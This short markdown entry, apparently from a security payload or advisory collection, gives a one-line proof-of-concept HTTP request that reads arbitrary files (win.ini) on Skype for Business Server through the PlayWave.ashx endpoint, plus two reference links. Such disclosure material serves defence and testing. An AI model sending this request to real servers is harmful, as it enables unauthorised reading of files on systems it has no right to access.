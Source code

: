 ### Arbitrary File Read on Skype For Business Server
```
GET /RgsConfig/PlayWave.ashx?file=C:/Windows/win.ini
```

### References
* https://twitter.com/ptswarm/status/1549744638193541122
* https://lab.viettelcybersecurity.com/advisories/VCSA-97

